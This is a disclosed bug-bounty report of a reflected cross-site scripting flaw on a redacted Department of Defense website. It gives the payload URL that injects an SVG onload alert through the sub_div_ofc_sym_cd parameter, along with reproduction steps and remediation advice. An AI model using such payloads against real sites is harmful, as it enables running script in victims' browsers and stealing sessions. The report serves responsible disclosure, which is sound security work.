 # Reflected XSS on https://█████████/

## Report Details
- **Report ID**: 1065167
- **URL**: https://hackerone.com/reports/1065167
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-12-23T14:47:28.955Z
- **Disclosed**: 2021-02-01T17:47:32.810Z

## Reporter
- **Username**: nagli
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
##Vulnerable Website URL or Application:
```javascript
https://███████/███████=%22%3E%3Csvg/onload=alert(%22nagli%22)%3E
```

##Description of Security Issue: (please limit to one site/app per submission)

Reflected XSS due to no input validation

██████████

##Steps needed to reproduce bug:
Navigate to
```javascript
https://███████/█████████=%22%3E%3Csvg/onload=alert(%22nagli%22)%3E
```
Choose whatever javascript you'd like to execute on the sub_div_ofc_sym_cd query parameter

##Remediation
Sanitize the input on the that parameter

##Best Regards
nagli

## Impact

Executing Javascript on behalf of the victim

## Attachments
No attachments
